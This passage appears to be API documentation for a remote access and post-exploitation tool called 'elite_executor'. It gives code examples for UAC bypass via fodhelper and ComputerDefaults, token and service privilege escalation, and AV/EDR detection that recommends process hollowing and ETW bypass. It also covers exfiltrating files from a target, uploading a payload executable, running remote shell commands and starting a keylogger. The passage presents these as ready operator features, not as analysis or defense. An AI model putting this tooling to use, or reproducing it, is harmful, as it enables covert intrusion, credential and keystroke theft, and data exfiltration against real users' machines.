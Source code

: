 **Methods:**
- `fodhelper`: UAC bypass via fodhelper
- `computerdefaults`: UAC bypass via ComputerDefaults
- `token`: Token manipulation
- `service`: Service escalation

#### avscan
Detect AV/EDR products.
```python
result = elite_executor.execute('avscan',
    detailed=True
)
```

**Returns:**
```json
{
    "av_products": ["Windows Defender"],
    "edr_products": ["CrowdStrike"],
    "recommendations": ["Use process hollowing", "Apply ETW bypass"]
}
```

### File Operations

#### download
Download file from target.
```python
result = elite_executor.execute('download',
    path='C:\\sensitive.doc'
)
```

#### upload
Upload file to target.
```python
result = elite_executor.execute('upload',
    path='C:\\temp\\payload.exe',
    data=file_bytes
)
```

### Advanced Features

#### shell
Execute shell command.
```python
result = elite_executor.execute('shell',
    command='whoami /all'
)
```

#### keylogger
Start/stop keylogger.
```python
result = elite_executor.execute('keylogger',
    action='start',
    duration=300
)
```
